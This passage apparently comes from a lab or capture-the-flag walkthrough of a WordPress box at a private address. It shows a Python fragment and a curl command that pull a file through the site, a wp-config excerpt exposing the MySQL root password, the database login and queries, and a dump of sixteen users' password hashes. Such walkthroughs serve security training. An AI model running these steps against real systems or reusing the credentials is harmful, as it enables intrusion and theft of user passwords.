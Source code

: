 ```python
    id = numbers[-1]
    id = int(id) // 10

objHtml = opener.open(url + '/?p=' + str(id))
content = objHtml.readlines()

for line in content:
    if 'attachment-post-thumbnail size-post-thumbnail wp-post-image' in line.decode('utf-8'):
        urls = re.findall('"(https?://.*?)"', line.decode('utf-8'))
        print(urllib.request.urlopen(urls[0]).read().decode('utf-8'))
```

```bash
curl "https://192.168.220.148:12380/blogblog/wp-content/uploads/677352971.jpeg" -k
```

```php
/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');
```

## MySQL 3306

```bash
mysql -u root -p plbkac
```

```mysql
SHOW databases;
USE wordpress;
SHOW tables;
SELECT * from wp_users;
```

| user\_login | user\_pass                         |
| ----------- | ---------------------------------- |
| John        | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
| Elly        | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
| Peter       | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
| barry       | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
| heather     | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
| garry       | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| harry       | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| scott       | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| kathy       | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim         | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE         | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave        | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon       | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby        | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki       | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam         | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |